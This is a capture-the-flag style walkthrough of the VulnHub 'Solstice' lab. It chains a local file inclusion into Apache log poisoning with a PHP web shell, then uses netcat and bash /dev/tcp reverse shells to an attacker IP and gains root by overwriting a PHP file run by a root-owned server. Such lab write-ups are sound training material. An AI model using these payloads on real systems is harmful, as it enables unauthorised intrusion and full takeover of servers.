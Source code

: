 # Solstice

| Name        | Solstice                      |
| ----------- | ----------------------------- |
| Fuente:     | Myself                        |
| Dificultad: | Easy                          |
| SO:         | Linux                         |
| Tipo:       | VulnHub - OffSec Play Grounds |

## Host
```shell
192.168.203.72
```
## Enumeration
### Nmap
```shell
nmap -Pn 192.168.203.72
nmap -Pn 192.168.203.72 -sC -sV
nmap -Pn 192.168.203.72 -p- --min-rate=1000

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
2121/tcp open  ccproxy-ftp
3128/tcp open  squid-http

8593/tcp  open  unknown
54787/tcp open  unknown
62524/tcp open  unknown

nmap -Pn 192.168.203.72 -p8593,54787,62524 -sV -sC
```

### FTP
We tried to connect to the FTP service in port 21 but anonymous authentication was not permitted. Then we tried port 2121 and we could connect as anonymous.
```shell
ftp 192.168.203.72 2121

cd pub
```
- Only one directory was found with cero information
### SMTP
We connected to the mail service too but again we didn't find relevant information.
```shell
telnet 192.168.203.72 25
```

### Web Enumeration
We started enumerating the services but we could not find anything relevant, then we are going to continue enumerating the web servers we have access to:
```shell
http://192.168.203.72/
http://192.168.203.72:8593/
http://192.168.203.72:54787
```
- One found with a basic nmap scan and two with a scan of all ports

In the first and third ones we found a just a blank page, but in the second one we found a simple web page with two hyperlinks:
![[01-Solstice.png]]

When we click the "Book List" link a GET query is made:
```shell
http://192.168.203.72:8593/index.php?book=list
```
- Then we can try something like LFI or maybe SQLi. 

Let's try first LFI:
```shell
http://192.168.203.72:8593/index.php?book=./../../../../etc/passwd
```
![[01-Solstice-1.png]]
- Look at that, we can read files from the server

From our initial enumeration we know this is a Apache web server and in this moment we have LFI, then if we could have access to the server log files we could try a Log Poisoning attack.
## Foothold
### Log Poisoning 
```shell
http://192.168.203.72:8593/index.php?book=./../../../../var/log/apache2/access.log
```

Now we can try the log poison with a web shell in the User-Agent header.
```shell
curl -s "http://192.168.203.72" -A "<?php system(\$_GET['cmd']); ?>"
```
![[01-Solstice-2.png]]
- Look how in the red line the space for the User-Agent header is blank (last camp), then our poisoning worked
#### Web Shell
We just need to execute commands in the uploaded web shell:
```shell
http://192.168.203.72:8593/index.php?book=./../../../../var/log/apache2/access.log&cmd=id
```
![[01-Solstice-3.png]]
- We are in!!!

### Reverse Shell
#### Listener
```shell
nc -lnvp 4444
```
#### Execute Reverse Shell
```shell
http://192.168.203.72:8593/index.php?book=./../../../../var/log/apache2/access.log&cmd=nc+192.168.45.152+4444+-e+/bin/bash
```

![[01-Solstice-4.png]]
#### Improving Pseudo Console
```shell
script /dev/null -c bash
ctrl +z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Privilege Escalation
We can start with our basic techniques for privilege escalation:
```shell
sudo -l
find / -user root -perm /4000 2>/dev/null

/var/tmp/sv
```
- Look at that, looking for SUID we found a directory that looks like have SUID rights?, that's weird, we don't know how to escalate privileges with just a directory, let's see if there are something there

```shell
ls /var/tmp/sv

index.php
```
![[01-Solstice-5.png]]
- And there is only one file

Let's stop here an run a tool:
### Linpeas
We need to transfer the binary to the victim machine, we can do this we a python http server.
```shell
chmod +x ./linpeas.sh

./linpeas.sh
```

We start reading the output of this tool and we find something weird in the running processes section:
![[01-Solstice-6.png]]
- We have a process which owner is `root` running a php web server (`php -S 127.0.0.1:57`) in the folder with SUID rights and the `index.php` file


**The point here is that the user running the web server is `root`. For example we obtained in [[#Foothold|Foothold]] a reverse shell with the `www-data` user because he was the owner of the process running the web server, then if we edit or create a `php` file with a reverse shell in this web server and visit it we will obtain a connection to a listener.**

### Root Reverse Shell
We can edit the existing `php` file with a file editor like `vim, nano` or we can use the `echo` command to replace the content directly:
```shell
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.152/5555 0>&1'");?>
<?php system('nc 192.168.45.152 5555 -e /bin/bash')?>

echo "<?php system('nc 192.168.45.152 55555 -e /bin/bash')?>" > index.php
```
#### Listener
```shell
nc -lnvp 5555
```
#### Executing Reverse Shell
We can't visit the web server because we don't have a GUI to open a web navigator, but we can use the following tool:
```shell
curl 127.0.0.1:57
```
- This will made a request directly to `/index.php` and we will obtain our reverse shell

- If we wanted to visit the web page in a web navigator we could have made a tunnel with port forwarding and then visit the URL of the server in our forwarded port:
```shel
http://127.0.0.1:6666
```



